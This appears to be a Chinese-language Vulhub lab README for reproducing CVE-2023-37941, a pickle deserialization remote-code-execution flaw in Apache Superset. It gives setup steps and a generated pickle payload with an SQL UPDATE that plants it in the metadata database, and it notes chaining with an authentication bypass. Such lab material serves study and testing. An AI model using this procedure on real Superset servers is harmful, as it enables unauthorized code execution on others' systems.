 # Apache Superset Python Pickle 反序列化导致远程代码执行（CVE-2023-37941）

Apache Superset是一个开源的数据探索和可视化平台，设计为可视化、直观和交互式的数据分析工具。

Apache Superset 1.5至2.1.0版本中存在一个Python Pickle反序列化漏洞（CVE-2023-37941）。该应用程序使用Python的`pickle`包来在元数据数据库中存储特定的配置数据。具有元数据数据库写入权限的已认证用户可以插入恶意的Pickle有效载荷，当应用程序反序列化这些数据时，会导致Superset服务器上的远程代码执行。

当与[CVE-2023-27524](../CVE-2023-27524)结合使用时，未经身份验证的攻击者可以先绕过身份验证，然后利用反序列化漏洞执行任意代码。

参考链接：

- <https://www.horizon3.ai/attack-research/disclosures/apache-superset-part-ii-rce-credential-harvesting-and-more/>
- <https://github.com/Barroqueiro/CVE-2023-37941>
- <https://forum.butian.net/share/2458>

## 环境搭建

执行以下命令启动Apache Superset 2.0.1服务器：

```
docker compose up -d
```

服务启动后，可以通过`http://your-ip:8088`访问 Superset。默认登录凭据为admin/vulhub。

## 漏洞复现

执行以下步骤前，假设你已经通过[CVE-2023-27524](../CVE-2023-27524)漏洞生成有效的会话Cookie并登录到仪表板。

首先，创建一个新的"Dashboard"，并通过点击"Share"按钮生成一个永久链接，复制这个永久链接，稍后将会用到：

![](1.png)

然后，按照以下步骤创建一个新的"Database"：

1. 导航到"Data"→"Databases"
2. 点击"+ Database"添加一个新的数据库连接
3. 输入数据库名称（比如"SQLite"）
4. 这里请填写：`sqlite+pysqlite:////app/superset_home/superset.db`
5. 展开"Advanced"并勾选"Expose in SQL Lab"和"Allow DML"
6. 保存数据库配置

![](2.png)

![](3.png)

然后，使用[CVE-2023-37941.py](CVE-2023-37941.py)生成恶意SQL命令（`-d`选项可以是`sqlite`、`mysql`或`postgres`，表示Superset服务器的数据库类型，在Vulhub中是`sqlite`）：

```shell
$ python3 CVE-2023-37941.py -c "touch /tmp/success" -d sqlite
[+] Base64 encoded payload:
Y3Bvc2l4CnN5c3RlbQpwMAooVnRvdWNoIC90bXAvc3VjY2VzcwpwMQp0cDIKUnAzCi4=

[+] Hex encoded payload (for SQL):
update key_value set value=X'63706f7369780a73797374656d0a70300a2856746f756368202f746d702f737563636573730a70310a7470320a5270330a2e' where resource='dashboard_permalink';
```

> [!注意]
> 因为`pickle`反序列化的Payload在不同操作系统上是不同的，所以你需要在Linux或MacOS上生成Payload。

在SQL Lab中执行生成的SQL命令：

![](4.png)

最后，通过访问前面复制的永久链接触发反序列化：

![](5.png)

可见，`touch /tmp/success`命令已成功执行。
